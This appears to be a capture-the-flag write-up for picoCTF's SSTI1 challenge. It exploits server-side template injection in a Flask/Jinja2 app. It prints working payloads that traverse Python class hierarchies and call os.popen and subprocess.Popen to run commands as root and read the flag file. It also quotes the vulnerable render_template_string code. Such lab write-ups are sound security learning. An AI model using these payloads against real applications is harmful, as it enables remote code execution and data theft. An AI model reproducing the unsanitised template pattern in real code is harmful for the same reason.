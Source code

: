 <h1> SSTI1 </h1>

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and a completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja2 because "The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)

<h2> The exploit </h2>
Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

This exploit relies on the fact the formatted strings can allow for the interpretation and execution of code on the server. This is possible when developers leave user-definable strings in their template files unsantized and without guardrails. In our context, this is as simple as inputting something to a form and having it printed on the website.

See below a snippet of the code, taken after completing this challenge.


<details> 
<summary> Explanation of exploit </summary>
![image](https://github.com/user-attachments/assets/f293ce71-b9b9-4af9-aa7d-83f120bc171e)

The line... `return render_template_string(f"""
    <!doctype html>
    <h1 style="font-size:100px;" align="center">
        {request.form.get("content", "")}
    </h1>
""")`

...Is vulnerable since the {request.form.get("content", "")} is unsantized and anything sent to it will can be evaluated on the server.

</details>

Sending: __`{{global_name.__class__.__mro__}}`__

- Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: __`{{global_name.__class__.__base__}}`__

- Returns: <class 'object'>

Sending: __`{{g.__class__.__mro__}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: __`{{g.__class__.mro()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: __`{{g['__class__']['mro']()}}`__

- Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: `__{{g['__class__']['__mro__']}}`__

- Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: __`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`__

- Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: __`{{get_flashed_messages}}`__

- Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: __`{{get_flashed_messages.__class__}}`__

- Returns: <class 'function'>

Sending: __`{{get_flashed_messages.__class__.__mro__}}`__
- Returns: (<class 'function'>, <class 'object'>)

Sending: __`{{get_flashed_messages.__class__.__mro__[1]}}`__
- Returns: <class 'object'>

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}`__

- Returns: All the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it as plaintext... see:
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: __`{{g}}`__

- Returns: `<flask.g of 'app'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}`__

- Returns: `<class 'mappingproxy'>`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}`__

- Returns: `/etc/passwd`

Sending: __`{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}`__

- Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: __`{{app.__class__}}`__

- Returns: `<class 'jinja2.runtime.Undefined'>`

Sending: __`{{app.__class__.__mro__}}`__

- Returns: `(<class 'jinja2.runtime.Undefined'>, <class 'object'>)`

When sending: __`{{app.__class__.__mro__[1].__subclasses__()}}`__, I received all the subclasses again. However, this time I put it into my IDE and replaced all commas with newlines to better visualise it.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

After querying ChatGPT on where I should begin my investigations regarding vulnerable subclasses, I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
- `{{app.__class__.__mro__[1].__subclasses__()[356]}}`

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen through: __`{{app.__class__.__mro__[1].__subclasses__()[356]}}`__

For example, if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: `{{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}`

Returns:

<details>
<summary> ls output </summary>
total 12

drwxr-xr-x 1 root root    25 Apr 13 03:37 .

drwxr-xr-x 1 root root    23 Apr 13 03:37 ..

drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__

-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py

-rw-r--r-- 1 root root    58 Mar  6 19:43 flag

-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt
</details>

Hooray! Success

It seems like we found the flag file. However, out of curiosity lets check out what the requirements.txt file is first.

<details>
<summary> requirements.txt output </summary>
ÿþblinker==1.8.2

click==8.1.7

colorama==0.4.6

Flask==3.0.3

itsdangerous==2.2.0

Jinja2==3.1.4

MarkupSafe==2.1.5

Werkzeug==3.0.3
</details>

Seems like just details for the application to run, maybe a docker thing?



<h3>Win</h3>
Lastly, lets using the linux read file command cat to open the flag file:


Sending: __`{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}`__

- Returns __`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}`__

---------------------------------------------------------------------------------------------------------------------

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


